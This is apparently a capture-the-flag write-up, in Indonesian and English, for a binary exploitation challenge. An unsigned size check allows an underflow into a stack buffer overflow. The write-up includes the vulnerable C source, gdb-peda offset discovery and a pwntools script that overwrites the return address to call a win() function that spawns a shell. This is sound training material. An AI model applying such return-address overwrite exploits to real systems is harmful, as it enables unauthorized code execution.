 # Speedrun_seccon —> noalloc

## Description:

Don't worry, I'm careful of buffer overflow.

大丈夫バッファオーバーフローには気を付けたから。

## Problem:

Pengecekan `buffer overflow` yang `useless`. So, basically just a classic buffer overflow challenge.

```c
int main() {
  unsigned size;
  char buf[0x80];

  /* Input size */
  printf("size: ");
  scanf("%d%*c", &size);
  if (size > 0x80) {
    puts("*** buffer overflow ***");
    return 1;
  }

  /* Input data */
  printf("data: ");
  readn(buf, size-1);

  return 0;
}
```

Kita tinggal memanggil fungsi `win` yang sudah tersedia untuk mendapatkan `shell`

```c
void win() {
  /* Call me :pleading_face: */
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
}
```

## Solution:

Jalankan program menggunakan `gdb` lalu gunakan `init-peda` lalu kita cari `offset` untuk overwrite return address.

```bash
gdb ./chall -q 
Reading symbols from ./chall...
(No debugging symbols found in ./chall)
(gdb) init-peda
gdb-peda$ pattern 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
....

gdb-peda$ pattern offset pAATAAqAAUA
pAATAAqAAUA found at offset: 153
```

Setelah didapatkan offsetnya, langsung buat script exploitnya.

```python
from pwn import *

LOCAL = True

if LOCAL : r = process("./chall")
else:  r = remote("133.242.227.104",9991)

elf = ELF("./chall",checksec=False)

payload = b"A"*153
payload += p64(elf.symbols['win'])

r.sendlineafter(": ",payload)
r.interactive()
```

## Flag:

`RTACON{1nt3g3r_oOoOoOv3rfloOoOoOw}`
